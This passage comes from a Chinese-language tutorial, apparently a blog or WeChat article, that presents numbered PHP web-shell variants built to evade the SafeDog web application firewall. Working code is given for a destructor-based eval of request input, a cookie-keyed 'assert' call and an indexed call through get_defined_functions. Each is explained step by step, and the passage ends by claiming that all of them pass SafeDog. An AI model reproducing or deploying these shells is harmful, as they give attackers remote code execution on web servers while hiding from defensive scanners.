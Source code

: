 通过类定义，定义一个类 User, 设置 $name 为空，然后设置一个析构函数，脚本运行结束之前会调用对象，然后 eval 去执行, 后面用 new 函数将对象实例化并输出方法，

  
然后，$user->name 这个相当于是 $this->name，等于’’.$_REQUEST[1];

  
最后 $user->name = ‘’.$_REQUEST[1]; 

相当于 eval($_REQUEST[1])

测试可以正常连接

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I4lr6huzia3sdUgYBwQN6libEZdgvNF3osjeoo6ibBW0jWThw74bJ01Miaibg/640?wx_fmt=png)

**9. 多传参方式绕过**

```
<?php
$COOKIE = $_COOKIE;
foreach($COOKIE as $key => $value){
        if($key=='assert'){
            $key($_REQUEST['s']);
        }
    }
?>
```

这里设置 $cookie 为获取的 cookie 传参，这里是个数组，然后通过 foreach 遍历，再进行键值分离，$key 为键，$value 为值

然后进行一个 if 判断，当 $key 为 assert 时，$key 拼接 ($_REQUEST[‘s’]); 达到生成 shell 效果

测试可以正常连接

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I4v6bfKyicwdRJ7rxkqjLz5VbKfRR4plVlLx42zQpWZIzjXGj0tM4WuyQ/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I4hE8W9LoYrkS55hkMpt5MvfRA0ra3YQyQgKye3Xzz8BibGD2icp1UERTA/640?wx_fmt=png)

**10. 通过 get_defined_functions 绕过**

```
<?php
$a=get_defined_functions();
$a['internal'][841]($_GET['a']);
?>
```

这个 get_defined_functions 函数作用是返回所有已定义的函数，包括内置函数和用户定义的函数，这里通过 get_defined_functions 得到所有函数，

然后通过 [‘internal’][841] 去访问并调用相应函数，然后后接($_GET[‘a’])，生成 shell

测试可以正常连接

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I4USE60tbnRnJ67icuMWB4qquzGYX0XybB732NIBaicvgb7L7gOHKZBe6g/640?wx_fmt=png)

用安全狗进行检测

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I4g9ibKKEwpwIs5PTqc01LbIoau1HAStprjOXiabwzyvIvIbCWcx2iabu6g/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcqYXicxUOGiaT5EaNJNg2F9I4icaLiaYPd6Oqlnr8O4UnG5qhyx4gPcOJAud63drJZiaSNUI66gNxZUSRg/640?wx_fmt=png)  
**以上方案里的均能过安全狗**
